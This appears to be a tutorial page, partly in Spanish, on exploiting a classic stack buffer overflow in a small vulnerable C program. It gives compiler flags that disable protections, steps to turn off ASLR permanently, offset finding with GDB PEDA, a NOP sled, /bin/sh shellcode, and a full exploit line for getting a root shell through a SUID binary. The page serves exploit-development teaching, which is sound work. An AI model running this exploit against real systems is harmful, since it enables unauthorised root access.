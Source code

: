 # Linux, Vulnerable functions in C programs



## Configurar entorno

### Install GDB PEDA y checkseck

```bash
# gdb PEDA
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit

# checkseck
wget https://www.trapkit.de/tools/checksec/checksec.sh
cp checksec.sh /usr/bin/checksec
rm checkseck.sh 
```



### Disable ASLR&#x20;

(from [https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization))

According to an article [How Effective is ASLR on Linux Systems?](https://web.archive.org/web/20210814111134/https://securityetalii.es/2013/02/03/how-effective-is-aslr-on-linux-systems/), you can configure ASLR in Linux using the `/proc/sys/kernel/randomize_va_space` interface.

> The following values are supported:
>
> * 0 – No randomization. Everything is static.
> * 1 – Conservative randomization. Shared libraries, stack, `mmap()`, VDSO and heap are randomized.
> * 2 – Full randomization. In addition to elements listed in the previous point, memory managed through `brk()` is also randomized.

So, to disable it, run

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

and to enable it again, run

```
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

This won't survive a reboot, so you'll have to configure this in `sysctl`. Add a file `/etc/sysctl.d/01-disable-aslr.conf` containing:

```
kernel.randomize_va_space = 0
```

should permanently disable this.



### Código

```c
#include <stdio.h>

int main(int argc, char *argv[]){
        char buffer[64];
        strcpy(buffer, argv[1]);
}
```



## Explotación

### Sin ASLR ni NX



\###Flags for compile disabling DEP (NX):

{% code overflow="wrap" lineNumbers="true" %}
```bash
gcc -z execstack -g -fno-stack-protector -mpreferred-stack-boundary=2 <file> -o <elf-name>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

#### Calcular offset

```bash
gdb ./<elf-file>     # Inicializar PEDA
pattern arg 100      # Crear una cadena para calcular el offset de 100 bytes de long.
run                  # Correr el programa con el offset creado
pattern search       # Calcular el offset
```

Como vemos se produce un BOF al correr el programa

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

Con un offset de 68 bytes:

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

Ahora vamos a agregar unos nops seguido de estos vamos a pasar una shellcode que queramos ejecutar y elegir una dirección intermedia de los nops que será la que pasemos al EIP para que ejecute nuestra shellcode. Pero antes tenemos que determinar la dirección en la que están los NOP's, por lo que debemos efectuar el BOF, las "A" se repiten 68 veces debido a que generan el desbordamiento, las "B" hacen referencia al EIP y los "\x90" a los NOP's:



`run $(python -c 'print "A" * 68 + "BBBB" + "\x90" * 200 ') # en PEDA`

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Ahora debemos buscar una shellcode que nos interese y ponerla después de los NOP's, y elegir una dirección de los NOP's para decirle al EIP que salte a esta dirección,como están en formato Little Endian habrá que invertir su orden:

{% code overflow="wrap" %}
```
# Shellcode for 32 bits spawn a /bin/sh
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```
{% endcode %}

Como el archivo es del propietario root y cuenta con permisos SUID podemos ejectuar el siguiente comando para obtener un sh como root en la maquina:

```
./<elf-SUID> $(python -c 'print <OFFSET> + <EIP-ADDRESS> + <NOPS> + <SHELLCODE>')
./vuln $(python -c 'print "A" * 68 + "\xc0\xf4\xff\xbf" + "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

